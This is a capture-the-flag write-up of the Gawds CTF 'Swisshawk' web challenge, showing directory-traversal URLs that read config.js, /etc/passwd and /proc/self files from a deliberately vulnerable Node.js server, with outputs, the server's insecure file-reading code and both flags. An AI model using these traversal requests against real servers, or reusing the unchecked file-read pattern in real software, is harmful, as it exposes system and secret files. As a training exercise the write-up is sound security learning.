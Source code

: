 ```yaml
---
layout: post
title: Gawds CTF/ Swisshawk 
---
```


## Description

This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, 
it made me learn a new vector in post-exploitation of web apps.

Your friend Tamanna is in danger, swisshawk defaced her website and hidden some flags in there.

Tamanna can only restore the website if she knows the flags, please help tamanna get her website back!

[http://swisshawk.ctf.gawds.in](http://swisshawk.ctf.gawds.in)

* * * 

## The Challenge

The challenge in a sense was quite straight forward. Opening the page greets you with a steady message.

![Challenge](https://sin9yt.net/public/images/startup-swisshack.png) 

As always the entry point being the source, I decided to give it a look.

<pre><p>You will never be able to find the flags, I have very carefully
        hidden it somewhere here &lt;!-- page: /app path: /config.js --&gt;</p></pre>

Looking at the comment it was evident that it was a node.js application.

From the hint, the page was currently in the `app` directory. We have to go to the root directory to access the `config.js` file.

Navigating to the following page:
<pre>http://swisshawk.ctf.gawds.in/../config.js</pre>

<pre><p>module.exports = {
    PORT: process.env.PORT || 3000,
    flag1: 'flag{F1R5T_FL4G_W45NT_THAT_H4RD}',
    flag2: 'you_cant_find_me(I am the server)'
}
<!-- page: /config.js path: /config.js --></p></pre>

<strong>Flag1: flag{F1R5T_FL4G_W45NT_THAT_H4RD} </strong>

## Phase II

Now challenge was finding the second flag. The hint too was very cryptic.
<blockquote>you_cant_find_me(I am the server)</blockquote>


The hint meant flag was present inside the server's directory.

I tried directory traversal. It being a node.js app, I tried various combinations of the entry points like `app.js` `index.js`.

<pre>http://swisshawk.ctf.gawds.in/../index.js
http://swisshawk.ctf.gawds.in/../app.js
http://swisshawk.ctf.gawds.in/app.js
http://swisshawk.ctf.gawds.in/index.js
</pre>

I then tried loading the `/etc/passwd` file.
<pre>http://swisshawk.ctf.gawds.in/../../../../../../../../../../../etc/passwd</pre>

First breakthrough!

<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
u57400:x:57400:57400:,,,:/app:/bin/bash
dyno:x:57400:57400:,,,:/app:/bin/bash
&lt;!-- page: /etc/passwd path: /config.js --&gt;
</pre>

But it still was a dissapointment, I wasn't able to access any of the server files. I went to as far as looking in the `/var/www/` directory.

I came across an article which discussed about post exploitation techniques after a LFI vulnerability. 

One interesting place to look for was the `/proc/` directory. This directory not only contained each process related files as well as file descriptors.

Each process has a directory named by its <strong>process id (pid).</strong>

The shortcut being, it isn't necessary to know the process id to access the directory. The current process directory can be accessed by navigating to the `/proc/self/` directory.

This directory contains four juicy files:

* environ
* cmdline
* maps
* mountinfo

Trying each file: `http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/environ/`
<pre>
SHLVL=1 HOME=/app
PORT=41335PS1=\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]
VERSION=v6.12.3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NPM_VERSION=3PWD=/appDYNO=web.1NODE_CHANNEL_FD=3
&lt;!-- page: /proc/self/environ path: /config.js --&gt;</pre>

Nothing great.

`http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/cmdline/`
<pre>
/usr/bin/nodeyou_cant_find_me.js
&lt;!-- page: /proc/self/cmdline path: /config.js -->
</pre>

We found the entry point of the node.js application. 

<pre>
const express = require("express");
const config = require("../config");
const flag2 = require("../flag2isHere");
const resolve = require("path").resolve;
const fs = require("fs");

const app = express();

app.use((req, res) => {
    const path = req.originalUrl.substring(1).replace('%2f', '/').replace('%2F', '/');

    let text = `You will never be able to find the flags, I have very carefully
        hidden it somewhere here`;
    if(path) {
        try {
            text = fs.readFileSync(path);
        }
        catch(err) {
            text = err;
        }
    }

    text += "&lt;!-- page: " + resolve(path) + " path: /config.js -->";
    return res.end("&lt;p>" + text + "&lt;/p>");
});

app.listen(config.PORT, () => {
    console.log("Wohooo, all set up, listening on ", config.PORT);
})&lt;!-- page: /app/you_cant_find_me.js path: /config.js -->
</pre>

We find that `../flag2isHere` is the js file containing the flag.

Going to `http://swisshawk.ctf.gawds.in/../flag2isHere.js`

<pre>
<p>module.exports = {
    flag: "ZmxhZ3tUSElTX20xR2hUX0g0dkVfQjMzbl9MMVR0TGVfdFIxY2tZfQ=="
}&lt;!-- page: /flag2isHere.js path: /config.js --></p>
</pre>

We get the base-64 encoded string. Decoding it we get the following flag.

<strong>Flag2: flag{THIS_m1GhT_H4vE_B33n_L1TtLe_tR1ckY}</strong>

